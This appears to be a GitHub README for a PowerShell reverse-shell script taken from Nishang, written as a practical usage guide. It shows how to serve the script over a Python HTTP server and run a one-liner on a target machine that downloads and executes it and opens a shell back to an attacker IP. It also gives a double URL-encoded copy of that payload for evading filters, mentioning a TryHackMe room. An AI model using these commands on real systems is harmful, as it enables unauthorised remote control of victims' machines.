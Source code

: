 # powershell-reverse-shell
its a simple powershell script i have from nishanga a usefull for reverse shell most for windows


# how to run the powershell script and get a reverse shell(usage)
1. open a simple python server and make sure the script is right there were you have opened the server
command: python3 -m http.server 81

where: 
port 81 (is where i have decided to open the port coz for me port 80 was already in used)
ip_address: 10.8.58.50 (check via ifconfig command or ip a| grep tun0)

**NB**: After you have saved this script and opened a server now u can execute the following command on the target machine
2. there multiple ways to do this first all u need to save the file as saved for me as shell.ps1 and after u need to execute the following command the target machine(anyway vulnerable that can allow you to run command or execute commands

**command**: powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.8.58.50:81/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.58.50 -Port 1234

NB: sometimes this command may not work so u can just incode the command either online or anything i love doing this with burpsuite course it is easy
Forexample with a tryhackme  room(iron corp , in order to get a reverse shell you were supporsed to encode the payload more than two times

## my encoded payload
%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%33%25%32%30%25%36%39%25%36%35%25%37%38%25%32%30%25%32%38%25%34%65%25%36%35%25%37%37%25%32%64%25%34%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%34%65%25%36%35%25%37%34%25%32%65%25%35%37%25%36%35%25%36%32%25%34%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%34%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%33%61%25%33%38%25%33%31%25%32%66%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%33%62%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%30%25%32%64%25%35%32%25%36%35%25%37%36%25%36%35%25%37%32%25%37%33%25%36%35%25%32%30%25%32%64%25%34%39%25%35%30%25%34%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%32%30%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%32%30%25%32%64%25%35%30%25%36%66%25%37%32%25%37%34%25%32%30%25%33%31%25%33%32%25%33%33%25%33%34
